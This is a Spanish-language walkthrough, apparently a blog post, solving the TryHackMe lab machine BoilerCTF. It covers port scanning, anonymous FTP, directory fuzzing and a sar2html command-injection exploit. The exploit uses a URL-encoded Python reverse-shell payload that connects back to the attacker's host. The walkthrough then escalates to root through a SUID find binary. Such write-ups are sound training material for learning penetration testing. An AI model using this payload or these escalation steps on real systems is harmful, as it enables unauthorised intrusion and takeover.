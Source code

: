 ```yaml
---
title: "BoilerCTF | TryHackMe 🔥"
date: 2023-09-07T02:01:58+05:30
description: "BoilerCTF es una maquina de TryHackMe, la herramienta para trazar estadísticas Sar2HTML tiene una vulnerabilidad RCE la cual explotamos para obtener una shell."
tags: [tryhackme, frp, webmin, ssh, sar2html]
---
```



## Nmap

Escaneo de puertos tcp, nmap nos muestra el puerto ftp (21), http (80), Webmin (10000) y el puerto ssh (55007) abiertos

```bash

$ nmap -p- -Pn -n -sVC --min-rate 2000 10.10.24.224

PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.6.48.252
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    syn-ack MiniServ 1.930 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 3EBE21590CEBC71E0E72F5E2B53E0435
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8bsvFyC4EXgZIlLR/7o9EHosUTTGJKIdjtMUyYrhUpJiEdUahT64rItJMCyO47iZTR5wkQx2H8HT
hHT6iQ5GlMzLGWFSTL1ttIulcg7uyXzWhJMiG/0W4HNIR44DlO8zBvysLRkBSCUEdD95kLABPKxIgCnYqfS3D73NJI6T2qWrbCTaIG5QAS5yAyPERXXz3
ofHRRiCr3fYHpVopUbMTWZZDjR3DKv7IDsOCbMKSwmmgdfxDhFIBRtCkdiUdGJwP/g0uEUtHbSYsNZbc1s1a5EpaxvlESKPBainlPlRkqXdIiYuLvzsf2
J0ajniPUkvJ2JbC8qm7AaDItepXLoDt
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLIDkrDNUoTTfKoucY3J3eXFICcitdce9/EOdMn8/7Z
rUkM23RMsmFncOVJTkLOxOB+LwOEavTWG/pqxKLpk7oc=
|   256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPsAMyp7Cf1qf50P6K9P2n30r4MVz09NnjX7LvcKgG2p
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


```

En el puerto 21 se encuentra el servicio ftp usamos las credenciales anonymous, y encontramos un archivo con un mensaje cifrado

```bash

$ ftp -v 10.10.24.224
Connected to 10.10.24.224.
220 (vsFTPd 3.0.3)
Name (10.10.24.224:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> passive
Passive mode on.
ftp> ls -la
227 Entering Passive Mode (10,10,24,224,161,174).
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt -
remote: .info.txt
227 Entering Passive Mode (10,10,24,224,176,66).
150 Opening BINARY mode data connection for .info.txt (74 bytes).
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
226 Transfer complete.
74 bytes received in 0.00 secs (133.8252 kB/s)

```


El texto sin formato dice `“Just wanted to see if you find it. Lol. Remember: Enumeration is the key!”` que podemos obtener usando el algoritmo ROT13 para decodificar el texto cifrado

## web

Ingresamos la web en puerto 80 y encontramos esto


{{< figure src="https://i.imgur.com/Sl3xtrr.png">}}


Es sólo la página predeterminada de Apache, así que analicemos para ver qué otros archivos y directorios podemos encontrar

```bash
$ ffuf -u http://10.10.24.224/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -t 80


manual                  [Status: 301, Size: 313, Words: 20, Lines: 10]
joomla                  [Status: 301, Size: 313, Words: 20, Lines: 10]
                        [Status: 200, Size: 11321, Words: 3503, Lines: 376]
server-status           [Status: 403, Size: 300, Words: 22, Lines: 12]


```

Hay un blog que ejecuta el CMS `Joomla` detrás

{{< figure src="https://i.imgur.com/RCvbT1o.png">}}


Analizamos ese nuevo directorio


```bash

$ ffuf -u http://10.10.24.224/joomla/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 100 -c



.htpasswd               [Status: 403, Size: 303, Words: 22, Lines: 12]
_archive                [Status: 301, Size: 322, Words: 20, Lines: 10]
_database               [Status: 301, Size: 323, Words: 20, Lines: 10]
_test                   [Status: 301, Size: 319, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 303, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 298, Words: 22, Lines: 12]
~www                    [Status: 301, Size: 318, Words: 20, Lines: 10]


```


Esta vez encontramos algunos directorios más. El /_test El directorio contiene una aplicación llamada `sar2html`

Una búsqueda rápida en la web muestra que [hay un error de ejecución remota de código](https://www.exploit-db.com/exploits/47204) que es fácil de explotar



# Reverse Shell

Después de algunas pruebas y errores, pude hacer funcionar una carga útil de Python con doble URL codificada


```url

http://10.10.24.224/joomla/_test/index.php?plot=;python%20-c%20'import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.6.48.252%22%2C4444))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22%2Fbin%2Fbash%22)'


```

Nos ponemos en escucha

```bash

$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.2.55.245] from (UNKNOWN) [10.10.24.224] 34796
www-data@Vulnerable:/var/www/html/joomla/_test$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Vulnerable:/var/www/html/joomla/_test$ uname -a
uname -a
Linux Vulnerable 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:01:15 UTC 2019 i686 i686 i686 GNU/Linux

```

### Primera Flag


Vemos el directorio actual y encontramos eun archivo `log.txt` que contiene la contraseña de otro usuario

```bash

www-data@Vulnerable:/var/www/html/joomla/_test$ cat log.txt
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: REDACTED
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.



```

Ahora hacemos `su basterd` y cambie a su cuenta con la contraseña que encontramos

El directorio de inicio de Basterd no contiene la bandera de usuario, sin embargo, hay una `backup.sh` script propiedad del usuario stoner. Si lo examinamos encontraremos que incluye la contraseña

con eso podemos `su stoner` y luego toma la bandera de `/home/stoner/.secret`


# Root

comprobamos los privilegios sudo y los binarios SUID

```bash
stoner@Vulnerable:/tmp$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
stoner@Vulnerable:/tmp$ find / -user root -type f -perm /4000 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap



```

`/usr/bin/find` tiene el bit SUID configurado!


```bash
stoner@Vulnerable:/tmp$ find . -exec /bin/sh -p \; -quit
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
# cd /root && ls -la
total 12
drwx------  2 root root 4096 Aug 22  2019 .
drwxr-xr-x 22 root root 4096 Aug 22  2019 ..
-rw-r--r--  1 root root   29 Aug 21  2019 root.txt
# wc -c root.txt
29 root.txt

```
